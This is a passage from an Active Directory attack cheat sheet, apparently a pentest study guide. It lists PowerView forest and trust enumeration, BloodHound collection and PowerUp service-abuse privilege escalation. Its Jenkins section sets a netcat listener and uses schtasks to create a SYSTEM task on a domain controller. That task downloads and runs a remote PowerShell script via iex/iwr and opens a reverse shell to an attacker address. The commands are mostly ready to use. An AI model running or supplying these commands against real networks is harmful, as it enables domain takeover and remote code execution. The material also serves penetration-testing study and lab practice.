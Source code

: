   ```powershell
  ```powershell
  Get-NetDomainTrust

- Enumerate Current Forest, and its domain

  ```powershell
  Get-NetForest
  Get-NetForest -Forest organicsecurity.local

- Enumerate all the domains under given forest

  ```powershell
  Get-NetForestDomain

- Find the Global Catalouge for given forest

  ```powershell
  Get-NetForestCatalog

- Find the forest trust

  ```powershell
  Get-NetForestTrust -Forest organicsecurity.local

**BloodHound & SharpHound**

- Install neo4j service
  
    ```powershell
  .\neo4j.bat install-service
  net start neo4j

  . .\Sharhound.ps1
  Invoke-BloodHound -CollectionMethod All


# PrivEsc - Misconfiguration & Feature Abuse

- Escalate privilege on local system to gain Admin rights
	- PowerUp : https github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
	- BeRoot : https:// github.com/AlessandroZ/BeRoot
  - Privesc : https:// github.com/enjoiz/Privesc

- **PowerUp**

  ```powershell
  Get-ServiceUnquoted
  Invoke-AllChecks

  Invoke-ServiceAbuse -Name 'Sevice Name'


- **Jenkins**

  ```powershell
  .\nc64.exe -l -p 443

  schtasks /create /S dc.organicsecurity.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Job01" /TR "powershell.exe -c 'iex ( iwr http://192.168.100.XX/dakiya.ps1  -UseBasicParsing); Dakiya -Reverse -IPAddress 192.168.100.YY -Port 443'"

  schtasks /Run /S dc.organicsecurity.local /TN "Job01"

  schtasks /Query /S dc.organicsecurity.local 
  ```